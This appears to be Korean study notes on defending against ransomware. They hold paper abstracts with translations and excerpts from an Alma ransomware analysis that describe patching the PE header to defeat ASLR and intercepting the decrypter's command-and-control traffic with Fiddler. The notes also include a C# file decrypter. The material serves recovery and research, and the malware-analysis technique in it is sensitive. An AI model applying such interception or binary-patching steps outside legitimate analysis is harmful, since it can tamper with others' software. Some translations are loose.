- Enhance the security of your Microsoft Office components (Word, Excel, PowerPoint, Access, etc.).
- Think of disabling remote services.
- .Filter EXEs in email.
- Use a reputable security suite.
- Use System Restore to get back to a known-clean state.
- Use System Restore to get back to a known-clean state.
- Sure to disable file sharing.
- Switch off unused wireless connections, such as Bluetooth or infrared ports.
- Exercise caution before using Wi-Fi network.
- Do not click on harmful links in your email.
- Do not visit unsafe and unreliable websites.

<br/>

-----

<br/>

### ○ (2017) PayBreak: Defense Against Cryptographic Ransomware | ASIA CCS '17

```
Similar to criminals in the physical world, cyber-criminals use a variety of illegal and immoral means to achieve monetary gains. Recently, malware known as ransomware started to leverage strong cryptographic primitives to hold victims' computer files "hostage" until a ransom is paid. Victims, with no way to defend themselves, are often advised to simply pay. Existing defenses against ransomware rely on ad-hoc mitigations that target the incorrect use of cryptography rather than generic live protection. To fill this gap in the defender's arsenal, we describe the approach, prototype implementation, and evaluation of a novel, automated, and most importantly proactive defense mechanism against ransomware. Our prototype, called PayBreak, effectively combats ransomware, and keeps victims' files safe.
PayBreak is based on the insight that secure file encryption relies on hybrid encryption where symmetric session keys are used on the victim computer. PayBreak observes the use of these keys, holds them in escrow, and thus, can decrypt files that would otherwise only be recoverable by paying the ransom. Our prototype leverages low overhead dynamic hooking techniques and asymmetric encryption to realize the key escrow mechanism which allows victims to restore the files encrypted by ransomware. We evaluated PayBreak for its effectiveness against twenty hugely successful families of real-world ransomware, and demonstrate that our system can restore all files that are encrypted by samples from twelve of these families, including the infamous CryptoLocker, and more recent threats such as Locky and SamSam. Finally, PayBreak performs its protection task at negligible performance overhead for common office workloads and is thus ideally suited as a proactive online protection system.
```

물리적 세계의 범죄자들과 비슷하게, 사이버 범죄자들은 금전적 이득을 얻기 위해 다양한 불법적이고 비도덕적인 수단을 사용한다.

랜섬웨어에 대한 기존의 방어는 일반적인 실시간 보호보다는 암호화의 잘못된 사용을 목표로 하는 임시 완화 기능에 의존한다.

방어 무기의 이러한 공백을 메우기 위해 우리는 랜섬웨어에 대한 새로운, 자동화된, 그리고 가장 중요한 사전 예방적 방어 메커니즘의 접근법, 프로토타입 구현 및 평가를 설명한다.

PayBreak라고 불리는 우리의 프로토타입은 랜섬웨어와 효과적으로 싸우고 희생자들의 파일을 안전하게 지켜준다.

PayBreak는 보안 파일 암호화가 공격 대상 컴퓨터에서 대칭 세션 키를 사용하는 하이브리드 암호화에 의존한다는 통찰력을 기반으로 한다.

PayBreak은 이러한 키의 사용을 관찰하고 에스크로 보관하며, 따라서 몸값을 지불해야만 복구할 수 있는 파일을 해독할 수 있다.

우리의 프로토타입은 낮은 오버헤드 동적 후킹 기술과 비대칭 암호화를 활용하여 피해자가 랜섬웨어로 암호화된 파일을 복구할 수 있는 핵심 에스크로 메커니즘을 실현한다.

우리는 PayBreak이 실제 랜섬웨어의 20개의 매우 성공적인 가정에 대한 효과성을 평가했고, 우리의 시스템이 악명높은 CryptoLocker를 포함한 12개 샘플군과 최근의 위협으로 암호화된 모든 파일을 복원할 수 있다는 것을 증명했다.

마지막으로 PayBreak는 일반적인 작업 부하에 대해 최소한의 성능 오버헤드로 보호 작업을 수행하므로 사전 예방적 온라인 보호 시스템으로 이상적으로 적합하다.


이 시스템의 키 값 자산은 마이크로소프트의 CryptoAPI와 Crypto++에서 사용하는 대칭키는 필요한 경우에만 피해자가 접근할 수 있도록 안전하게 저장된다.

세션키는 시스템 설치 중 생성된 사용자의 공용키(pku)를 사용하여 암호화 및 내보내기를 시행한다.

이 단계에서 2048비트 RSA 키를 구현하고 있으며, 2048비트의 큰 키의 크기는 보다 작거나 같은 크기의 데이터의 안전한 암호화를 보장한다.

<br/>

-------

<br/>

#### ■ Alma ransomware: Analysis of a new ransomware threat (and a decrypter!). | Aug 24, '16

- https://info.phishlabs.com/blog/alma-ransomware-analysis-of-a-new-ransomware-threat-and-a-decrypter.

랜섬웨어 공격은 사건 수에서 은행 트로이 목마를 앞질렀다.

랜섬웨어의 급속한 인기는 위협 행위자들이 연구원들과 경쟁자들을 능가하려고 애쓰면서 수십 가지의 변종, 하위 유형, 그리고 비슷한 유형의 군집을 형성하게 되었다.

이 역동적인 위협 환경에서는 기존의 랜섬웨 제품군에서 전술, 기술 또는 절차의 변화를 모니터링 하는 것과 함께 소셜 미디어 및 언더그라운드 시장에서 새로운 위협을 모니터링한다.

이 과정에서 새로운 위협 행위자가 랜섬웨 설계와 유통을 처음 시도했을 가능성이 있는 것에 대해 경각심을 갖고 조사한 것이다.

최근 Alma 랜섬웨어라 불리는 새로운 유형의 랜섬웨어가 공격 키트를 통해 전달되는 것을 확인하였고, 웹 서버에 종종 숨겨져 있는 공격 키트(EK)는 악성 페이로드 전달을 위해 사용자의 웹 브라우저를 방문하는 취약성을 악용하는 위협 행위자들이 사용하는 툴킷이다.


The executable itself makes use of Address Space Layout Randomization (ASLR) enabled per a flag found in the PE Header. ASLR is a protection mechanism in which the operating system randomizes the memory locations of the program in order to make it less susceptible to buffer overflow attacks. However, to less experienced malware analysts or to those unfamiliar with the concept, it also makes it more difficult to analyze as locations for certain functions will change upon each execution of the payload. This is easily defeated by changing the corresponding value found within the header of the executable.


분석을 통해 해독 도구는 모든 희생자가 자신의 파일을 해독할 수 있도록 하는 MITM(man-in-the-middle) 기법에 취약하다고 판단했다.

아래 그림 12는 알마 랜섬웨어가 암호화를 수행한 후 간단한 텍스트 파일을 보여준다.


Now we can execute a MITM technique on the decrypter (or write your own) to restore your files. We made use of Fiddler, a popular HTTP proxy developed by Telerik to modify the responses from the command and control server. Before the responses can be modified, you need to enable filtering so that breakpoints can be set on POST requests. Figure 14 shows the parameters that need to be set before the man-in-the-middle attack can be completed.


As displayed in Figure 8, when the decrypter is run, it attempts to check-in with the command and control by issuing a POST request to I.php. The server will then respond with several values (Bitcoin wallet, file extension, hours left to pay, amount to pay). Figure 15 below displays that you can run the POST request and break on the response. Here we are able to supply Fiddler with a .dat file containing parameters we specify. This allows manipulation of any of these values, including amount to pay and time left to pay.


After we have supplied Fiddler with the data file, we can then click “Run to Completion”. The decrypter will then issue a request POSTing the Bitcoin Address to c.php. If the victim has not paid the ransom, the server will respond with nothing. We can craft a data file containing the key generated by the Alma Ransomware payload and break on the response. Figure 16 below exhibits our state at this point.


Figure 17, shows our MITM attack is successful using the values supplied by our data files and Fiddler. We are now granted the ability to decrypt any of our previously encrypted files. We want to decrypt our PlainText.txt file from Figures 12 and 13 and our results are displayed in figure 18 below.


<br/>

**Alma Ransomware Decrypter .CS**

```c#
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ALDecrypter
{
    class Program
    {

        public const uint CRYPT_VERIFYCONTEXT = 0xf0000000;
        public const string MS_ENH_RSA_AES_PROV = "Microsoft Enhanced RSA and AES Cryptographic Provider";
        public const string MS_ENH_RSA_AES_PROV_XP = "Microsoft Enhanced RSA and AES Cryptographic Provider (Prototype)";
        public const uint PROV_RSA_AES = 0x18;

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptAcquireContext(out IntPtr phProv, string pszContainer, string pszProvider, uint dwProvType, uint dwFlags);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptCreateHash(IntPtr hProv, ALG_ID Algid, IntPtr hKey, uint dwFlags, out IntPtr phHash);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptDecrypt(IntPtr hKey, IntPtr hHash, [MarshalAs(UnmanagedType.Bool)] bool Final, uint dwFlags, byte[] pbData, ref int pdwDataLen);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptDeriveKey(IntPtr hProv, ALG_ID Algid, IntPtr hBaseData, uint dwFlags, ref IntPtr phKey);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptDestroyHash(IntPtr hHash);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptDestroyKey(IntPtr hKey);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptHashData(IntPtr hHash, byte[] pbData, int dwDataLen, uint dwFlags);

        [return: MarshalAs(UnmanagedType.Bool)]
        [DllImport("advapi32.dll")]
        public static extern bool CryptReleaseContext(IntPtr hProv, uint dwFlags);

        public static bool Decrypt(string file, string pass)
        { 
            IntPtr zero = IntPtr.Zero;      // pointer to CSP handle
            IntPtr phKey = IntPtr.Zero;     // pointer to HCRYPTKEY
            IntPtr phHash = IntPtr.Zero;    // hash object handle

            int pdwDataLen = 0;             // pointer to DWORD that provides length of buffer to be decrypted
            int count = 0x80;

            try
            {
                /* The CryptAcquireContext function is used to acquire a handle to a particular key 
                 * container within a particular cryptographic service provider (CSP). This returned 
                 * handle is used in calls to CryptoAPI functions that use the selected CSP.
                 * 
                 * Source: MSDN
                 */
                if (!CryptAcquireContext(out zero, null, "Microsoft Enhanced RSA and AES Cryptographic Provider", 0x18, 0xf0000000) && !CryptAcquireContext(out zero, null, "Microsoft Enhanced RSA and AES Cryptographic Provider (Prototype)", 0x18, 0xf0000000))
                {
                    return false;
                }

                /* The CryptCreateHash function initiates the hashing of a stream of data. It creates 
                 * and returns to the calling application a handle to a cryptographic service provider (CSP) 
                 * hash object. This handle is used in subsequent calls to CryptHashData and CryptHashSessionKey 
                 * to hash session keys and other streams of data.
                 * 
                 * Source: MSDN
                 */
                if (!CryptCreateHash(zero, ALG_ID.CALG_SHA_256, IntPtr.Zero, 0, out phHash))
                {
                    return false;
                }

                /* The CryptHashData function adds data to a specified hash object. This function and 
                 * CryptHashSessionKey can be called multiple times to compute the hash of long or 
                 * discontinuous data streams.
                 * 
                 * Source: MSDN
                 */
                if (!CryptHashData(phHash, Encoding.Unicode.GetBytes(pass), pass.Length, 0))
                {
                    return false;
                }

                /*
                 * The CryptDeriveKey function generates cryptographic session keys derived from a base data 
                 * value. This function guarantees that when the same cryptographic service provider (CSP) 
                 * and algorithms are used, the keys generated from the same base data are identical. The 
                 * base data can be a password or any other user data.
                 * 
                 * Source: MSDN
                 */
                if (!CryptDeriveKey(zero, ALG_ID.CALG_AES_128, phHash, 0, ref phKey))
                {
                    return false;
                }

                CryptDestroyHash(phHash);       // destroy the hash object
                phHash = IntPtr.Zero;           // clear hash object handle

                using (MemoryStream stream = new MemoryStream(File.ReadAllBytes(file)))
                {
                    using (MemoryStream stream2 = new MemoryStream())
                    {
                        byte[] buffer = new byte[0x100];
                        bool final = false;

                        while (!final)
                        {
                            pdwDataLen = stream.Read(buffer, 0, count);
                            if (pdwDataLen <= (count - 1))
                            {
                                final = true;
                            }
                            CryptDecrypt(phKey, IntPtr.Zero, final, 0, buffer, ref pdwDataLen);
                            stream2.Write(buffer, 0, pdwDataLen);
                        }
                        FileStream stream3 = new FileStream(file, FileMode.Create, FileAccess.Write);
                        stream2.WriteTo(stream3);
                        stream3.Close();
                        File.Move(file, file.Replace(Path.GetExtension(file), ""));
                    }
                }

                // release the handle of the key
                if (phKey != IntPtr.Zero)
                {
                    CryptDestroyKey(phKey);
                }

                // release handle of CSP and key container
                if (zero != IntPtr.Zero)
                {
                    CryptReleaseContext(zero, 0);
                }

                return true;
            }

            // in case anything fails we want to destroy relevant items from memory
            catch
            {
                // release the handle of the key
                if (phKey != IntPtr.Zero)
                {
                    CryptDestroyKey(phKey);
                }

                // release handle of CSP and key container
                if (zero != IntPtr.Zero)
                {
                    CryptReleaseContext(zero, 0);
                }

                return false;   // indicate to caller we failed - bail out!
            }

        }

        static void Main(string[] args)
        {
            if (args.Length != 2)
            {
                Console.WriteLine("AlmaLocker Decrypter v.01");
                Console.WriteLine("Authored by King Salemno\n");
                Console.WriteLine("Please use as follows: \n");
                Console.WriteLine("ALDecrypter.exe AES_KEY FILE_TO_BE_DECRYPTED");
                System.Environment.Exit(1);
            }

            Console.WriteLine("AlmaLocker Decrypter v.01");
            Console.WriteLine("Authored by King Salemno");
            Console.WriteLine("\nDecrypting File ...\n");
            Decrypt(args[1], args[0]);
            Console.WriteLine("File Decrypted!");
        }

        public enum ALG_ID
        {
            CALG_AES_128 = 0x660e,
            CALG_SHA_256 = 0x800c
        }
    }
}
```

<br/>

-------

<br/>

### **○ (2018) Towards Data Resilience: The Analytical Case of Crypto Ransomware Data Recovery Techniques**

```
Crypto ransomware has earned an infamousreputation in the malware landscape and its sound sends alot of shivers to many despite being a new entrant. Themedia has not helped matters even as the myths andinaccuracies surrounding crypto ransomware continue todeepen. It’s been purported that once crypto ransomwareattacks, the victim is left with no option but to pay inorder to retrieve the encrypted data, and that without aguarantee, or risk losing the data forever. Securityresearchers are inadvertently thrown into a cat-and-mousechase to catch up with the latest vices of the aforesaid inorder to provide data resilience. In this paper, we debunkthe myths surrounding loss of data via a cryptoransomware attack. Using a variety of crypto ransomwaresamples, we employ reverse engineering and dynamicanalysis to evaluate the underlying attack structures anddata deletion techniques employed by the ransomware.Further, we expose the data deletion techniques used byransomware to prevent data recovery and suggest howsuch could be countered. From the results, we furtherpresent observed sandbox evasion techniques employedby ransomware against both static and dynamic analysisin an effort to obfuscate its operations and subsequentlyprevent data recovery. Our analyses have led us to theconclusion that no matter how devastating a cryptoransomware attack might appear, the key to data recoveryoptions lies in the underlying attack structure and theimplemented data deletion methodology.
```

랜섬웨어 공격으로 인한 데이터 손실을 다양한 랜섬웨어 샘플을 사용하여, 랜섬웨어가 채택한 기본 공격 구조와 데이터 삭제 기법을 평가하기 위해 리버스 엔지니어링 및 동적 분석을 통해 알아본다.

또한, 랜섬웨어가 데이터 복구를 막기 위해 사용하는 데이터 삭제 기법을 공개하고 그러한 기법에 어떻게 대응할 수 있는지 제안한다.

그 결과로부터 관찰된 샌드박스 회피 기법을 추가로 제시한다.

난독화 및 데이터 복구를 방지하기 위해 정적 및 동적 분석 모두에 대해 랜섬웨어를 사용한다.

아무리 파괴적인 랜섬웨어 공격이 나타나더라도 데이터 복구 옵션의 핵심은 기본 공격 구조와 구현된 데이터 삭제 방법론에 있다는 결론을 도출한다.


>  A ransomware attack on data recovery can implement any of the four attack instances depicted in figure 1.

<br/>

-----

<br/>

### **○ (2019) A Survey on Detection Techniques for Cryptographic Ransomware | IEEE**

```
Crypto-ransomware is a type of malware that encrypts user files, deletes the original data, and asks for a ransom to recover the hijacked documents.
It is a cyber threat that targets both companies and residential users, and has spread in recent years because of its lucrative results.
Several articles have presented classifications of ransomware families and their typical behaviour.
These insights have stimulated the creation of detection techniques for antivirus and firewall software.
However, because the ransomware scene evolves quickly and aggressively, these studies quickly become outdated.
In this study, we surveyed the detection techniques that the research community has developed in recent years.
We compared the different approaches and classified the algorithms based on the input data they obtain from ransomware actions, and the decision procedures they use to reach a classification decision between benign or malign applications.
This is a detailed survey that focuses on detection algorithms, compared to most previous studies that offer a survey of ransomware families or isolated proposals of detection algorithms.
We also compared the results of these proposals.
```

크립토 랜섬웨어는 사용자 파일을 암호화하고 원본 데이터를 삭제하며 납치된 문서를 복구하기 위해 몸값을 요구하는 악성 프로그램의 일종이다.

기업과 일반 이용자 모두를 대상으로 하는 사이버 위협으로 최근 몇 년 사이 수익성 좋은 결과 때문에 확산됐다.

몇몇 기사에서는 랜섬웨어 제품군 분류와 그들의 전형적인 행동을 제시했다.

이러한 통찰력은 바이러스 백신과 방화벽 소프트웨어에 대한 탐지 기술의 창조를 자극했다.

그러나 랜섬웨어 현장이 빠르고 공격적으로 진화하기 때문에 이러한 연구는 금방 시대에 뒤떨어진다.

본 연구에서는 최근 몇 년 동안 연구계가 발전해 온 검출 기법을 조사했다.

우리는 서로 다른 접근방식을 비교하고 랜섬웨어 조치에서 얻은 입력 데이터와 그들이 양성 애플리케이션과 악성 애플리케이션 사이의 분류 결정에 도달하기 위해 사용하는 의사결정 절차를 바탕으로 알고리즘을 분류했다.

이는 랜섬웨어 가족에 대한 조사나 검출 알고리즘에 대한 고립된 제안을 제공하는 대부분의 기존 연구와 비교했을 때 검출 알고리즘에 초점을 맞춘 상세 조사다.

우리는 또한 이 제안들의 결과를 비교했다.

<br/>